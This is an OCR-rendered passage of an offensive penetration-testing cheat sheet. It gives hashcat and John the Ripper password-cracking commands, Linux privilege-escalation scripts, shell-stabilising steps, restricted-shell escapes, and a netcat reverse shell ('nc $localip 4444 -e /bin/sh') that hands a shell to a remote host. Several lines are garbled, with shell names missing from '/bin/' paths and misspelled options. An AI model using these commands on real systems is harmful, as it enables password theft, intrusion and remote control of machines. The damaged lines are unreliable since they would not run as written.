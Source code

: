 ```  
hashcat -m 1000 -a 0 hash.txt rockyou.txt
hashcat -m 1000 -a 0 hash.txt rockyou.txt -r OneRuleToRuleThemAll.rule
```

- John the ripper

```  
john --wordlist=<PASSWORDS_LIST> hash.txt
```

# privilege escalation

### Linux privilege escalation
- Automated scripts

```  
linPEAS.sh
LinEnum.sh
linuxprivchecker.py
```

- spawning interactive shell and setting env

```  
python -c 'import pty;pty.spawn("/bin/  ");'  
ctrl z  
echo $TERM  
stty -a  
stty raw -echo  
fg  

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH  
export TERM=xterm256-color  
export SHELL=    

stty rows \<> colums \<>  
```

- restricted    

```  
perl -e 'exec "/bin/sh";'  
/bin/sh -i  
exec "/bin/sh";  
echo os.system('/bin/  ')  
/bin/sh -i  
ssh user@$ip nc $localip 4444 -e /bin/sh  
export TERM=linux  
```

- check what can be run as sudo 

```  
sudo -l
```
